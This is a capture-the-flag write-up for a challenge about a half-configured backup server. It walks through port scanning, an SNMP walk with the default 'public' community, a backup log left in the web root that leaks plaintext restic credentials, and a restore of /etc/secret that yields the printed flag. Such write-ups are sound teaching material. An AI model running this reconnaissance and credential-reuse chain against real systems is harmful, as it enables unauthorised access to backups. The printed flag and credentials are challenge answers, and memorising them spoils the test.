 Security conerns: Admin Johnson
======================================

## Task

Hi, TCC-CSIRT analyst,

admin Johnson began testing backup procedures on server johnson-backup.cypherfix.tcc, but left the process incomplete due to other interesting tasks. Your task is to determine whether the current state is exploitable.

See you in the next incident!

## Solution

Start with nmap scan of the server:

```
# nmap -p- johnson-backup.cypherfix.tcc
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-29 10:55 EDT
Nmap scan report for johnson-backup.cypherfix.tcc (10.99.24.30)
Host is up (0.0071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
199/tcp open  smux
```

On TCP 80 is running apache, seems default. Interesting is port 199. It's SNMP multiplexing. This protocol is pretty useless for server exploitation but on Linux this service is provided with Net-SNMP daemon. So, maybe SNMP daemon is running on the server. As SNMP (which stands for Security Not My Problem) is working on UDP protocol, it's not easy to tell if it's running on the server. Communications works that way that client send UDP request packet to server and server, if community (means password) is correct, responds. For many years, many devices uses for read only access community "public." So let's try it:

```
# nmap -p- johnson-backup.cypherfix.tcc
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-29 10:55 EDT
Nmap scan report for johnson-backup.cypherfix.tcc (10.99.24.30)
Host is up (0.0071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
199/tcp open  smux

Nmap done: 1 IP address (1 host up) scanned in 9.83 seconds
                                                                                                                                                                
┌──(root㉿kali)-[/home/kali/Downloads]
└─# snmpwalk -v1 -cpublic johnson-backup.cypherfix.tcc .
iso.3.6.1.2.1.25.4.2.1.1.1 = INTEGER: 1
iso.3.6.1.2.1.25.4.2.1.1.7 = INTEGER: 7
iso.3.6.1.2.1.25.4.2.1.1.8 = INTEGER: 8
iso.3.6.1.2.1.25.4.2.1.1.9 = INTEGER: 9
iso.3.6.1.2.1.25.4.2.1.1.14 = INTEGER: 14
iso.3.6.1.2.1.25.4.2.1.1.18 = INTEGER: 18
iso.3.6.1.2.1.25.4.2.1.1.20 = INTEGER: 20
iso.3.6.1.2.1.25.4.2.1.1.28 = INTEGER: 28
iso.3.6.1.2.1.25.4.2.1.1.29 = INTEGER: 29
iso.3.6.1.2.1.25.4.2.1.1.30 = INTEGER: 30
iso.3.6.1.2.1.25.4.2.1.1.1334 = INTEGER: 1334
iso.3.6.1.2.1.25.4.2.1.1.2255 = INTEGER: 2255
iso.3.6.1.2.1.25.4.2.1.2.1 = STRING: "supervisord"
iso.3.6.1.2.1.25.4.2.1.2.7 = STRING: "apache2ctl"
iso.3.6.1.2.1.25.4.2.1.2.8 = STRING: "cron"
iso.3.6.1.2.1.25.4.2.1.2.9 = STRING: "snmpd"
iso.3.6.1.2.1.25.4.2.1.2.14 = STRING: "cron"
iso.3.6.1.2.1.25.4.2.1.2.18 = STRING: "sh"
iso.3.6.1.2.1.25.4.2.1.2.20 = STRING: "restic.sh"
iso.3.6.1.2.1.25.4.2.1.2.28 = STRING: "apache2"
iso.3.6.1.2.1.25.4.2.1.2.29 = STRING: "apache2"
iso.3.6.1.2.1.25.4.2.1.2.30 = STRING: "apache2"
iso.3.6.1.2.1.25.4.2.1.2.1334 = STRING: "apache2"
iso.3.6.1.2.1.25.4.2.1.2.2255 = STRING: "sleep"
iso.3.6.1.2.1.25.4.2.1.3.1 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.7 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.8 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.9 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.14 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.18 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.20 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.28 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.29 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.30 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.1334 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.2255 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.4.1 = STRING: "/usr/bin/python3"
iso.3.6.1.2.1.25.4.2.1.4.7 = STRING: "/bin/sh"
iso.3.6.1.2.1.25.4.2.1.4.8 = STRING: "/usr/sbin/cron"
iso.3.6.1.2.1.25.4.2.1.4.9 = STRING: "/usr/sbin/snmpd"
iso.3.6.1.2.1.25.4.2.1.4.14 = STRING: "/usr/sbin/CRON"
iso.3.6.1.2.1.25.4.2.1.4.18 = STRING: "/bin/sh"
iso.3.6.1.2.1.25.4.2.1.4.20 = STRING: "/bin/bash"
iso.3.6.1.2.1.25.4.2.1.4.28 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.29 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.30 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.1334 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.2255 = STRING: "sleep"
iso.3.6.1.2.1.25.4.2.1.5.1 = STRING: "/usr/bin/supervisord"
iso.3.6.1.2.1.25.4.2.1.5.7 = STRING: "/usr/sbin/apache2ctl -D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.8 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.9 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.14 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.18 = STRING: "-c /etc/scripts/restic.sh >> /var/www/html/1790c4c2883ad30be0222a3a93004e66/restic.err.log 2>&1"
iso.3.6.1.2.1.25.4.2.1.5.20 = STRING: "/etc/scripts/restic.sh"
iso.3.6.1.2.1.25.4.2.1.5.28 = STRING: "-D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.29 = STRING: "-D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.30 = STRING: "-D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.1334 = STRING: "-D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.2255 = STRING: "86400"
iso.3.6.1.2.1.25.4.2.1.6.1 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.7 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.8 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.9 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.14 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.18 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.20 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.28 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.29 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.30 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.1334 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.2255 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.7.1 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.7 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.8 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.9 = INTEGER: 1
iso.3.6.1.2.1.25.4.2.1.7.14 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.18 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.20 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.28 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.29 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.30 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.1334 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.2255 = INTEGER: 2
End of MIB
```

Yep, it's working. If we look in the results, we can see running process list. Interesting thing is shell script restic.sh, which logs output to /var/www/html directory. Maybe we can access this log from the webserver: http://johnson-backup.cypherfix.tcc/1790c4c2883ad30be0222a3a93004e66/restic.err.log

In log we can see some internal server errors from restic server. But most importantly, on the first line we can see URL address with credentials of restic server :-) So, after install restic client we can try to access backups:

```
# restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test snapshots
enter password for repository: 
repository 902ea39d opened (version 2, compression level auto)
Save(<lock/e8cd801d6d>) returned error, retrying after 1.340753165s: unexpected HTTP response (500): 500 Internal Server Error
Save(<lock/e8cd801d6d>) returned error, retrying after 2.907229765s: unexpected HTTP response (500): 500 Internal Server Error
Save(<lock/e8cd801d6d>) returned error, retrying after 2.93242947s: unexpected HTTP response (500): 500 Internal Server Error
```

Same error. Let's try it again with wireshark or tcpdump what it's happening... In dump we can see that communication starts OK but error is returned when client try to create lock. Not sure why as I didn't know that restic exists until now but my guess is that if it's running on read only filesystem, this can happen. Luckily restic has --no-lock option, so try it again:

```
# restic --no-lock -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test snapshots
enter password for repository: 
repository 902ea39d opened (version 2, compression level auto)
ID        Time                 Host          Tags        Paths
--------------------------------------------------------------------
8dfb6a02  2024-10-14 16:56:18  fcf671955256              /etc/secret
--------------------------------------------------------------------
1 snapshots
```

Seems good. So now I can try to restore /etc/secret directory from backup:

```
# restic --no-lock -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test restore 8dfb6a02 --target .
enter password for repository: 
repository 902ea39d opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
restoring snapshot 8dfb6a02 of [/etc/secret] at 2024-10-14 20:56:18.631782921 +0000 UTC by root@fcf671955256 to .
Summary: Restored 3 files/dirs (26 B) in 0:00
```

And we have flag: FLAG{OItn-zKZW-cht7-RNH4}